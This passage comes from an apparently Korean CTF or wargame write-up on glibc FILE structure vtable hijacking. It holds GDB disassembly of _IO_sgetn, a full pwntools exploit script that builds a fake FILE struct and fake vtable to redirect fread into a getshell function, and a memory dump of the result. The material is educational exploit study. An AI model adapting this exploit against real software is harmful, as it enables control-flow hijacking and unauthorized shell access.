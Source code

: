 ```bash
=> 0x7f2fafc99717 <__GI__IO_sgetn+7>:   mov    rax,QWORD PTR [rax+0x40]
   0x7f2fafc9971b <__GI__IO_sgetn+11>:  jmp    rax
```

`rax` 레지스터가 조작한 vtable의 주소인 `0x41414141` 로 바뀐 것을 확인할 수 있다.

이후에 명령어를 보면, `rax` 레지스터의 값에서 `0x40` 오프셋 뒤에 존재하는 값을 `rax` 에 옮긴 후 `jmp` 명령어를 통해  해당 주소로 점프한다.

이는 `fread` 가 `vtable + 0x40` 주소를 참조하여 호출하는 것을 의미한다.

이제 vtable이 가리키는 주소에 가짜 vtable을 만들면 원하는 함수를 호출할 수 있다.

다음은 파일 구조체를 조작한 결과이다.

- fp_vtable.py
    
    ```python
    #fp_vtable.py
    from pwn import *
    
    p = process("./fp_vtable")
    
    elf = ELF("fp_vtable")
    
    name_buf = elf.symbols['name']
    getshell = elf.symbols['getshell']
    
    # fake file structure 
    name = p64(0xfbad2488)
    name += p64(0)*13
    name += p64(3)
    name += p64(0)*2
    name += p64(name_buf + 0xe0)
    name += p64(0xffffffffffffffff)
    name += p64(0)*8
    name += p64(0x6011b0) # vtable
    name += "\x00"*(256-len(name))
    name += p64(name_buf)
    
    # fake vtable
    name += p64(0) # padding
    name += "\x00"*0x40
    name += p64(getshell) # sgetn location [rax + 0x40]
    
    print(p.sendlineafter("Name:", name))
    
    p.interactive()
    ```
    

```zsh
gdb-peda$ x/100gx 0x6010a0
0x6010a0 <name>:        0x00000000fbad2488      0x0000000000000000
0x6010b0 <name+16>:     0x0000000000000000      0x0000000000000000
0x6010c0 <name+32>:     0x0000000000000000      0x0000000000000000
0x6010d0 <name+48>:     0x0000000000000000      0x0000000000000000
0x6010e0 <name+64>:     0x0000000000000000      0x0000000000000000
0x6010f0 <name+80>:     0x0000000000000000      0x0000000000000000
0x601100 <name+96>:     0x0000000000000000      0x0000000000000000
0x601110 <name+112>:    0x0000000000000003      0x0000000000000000
0x601120 <name+128>:    0x0000000000000000      0x0000000000601180
0x601130 <name+144>:    0xffffffffffffffff      0x0000000000000000
0x601140 <name+160>:    0x0000000000000000      0x0000000000000000
0x601150 <name+176>:    0x0000000000000000      0x0000000000000000
0x601160 <name+192>:    0x0000000000000000      0x0000000000000000
0x601170 <name+208>:    0x0000000000000000      0x00000000006011b0
0x601180 <name+224>:    0x0000000000000000      0x0000000000000000
```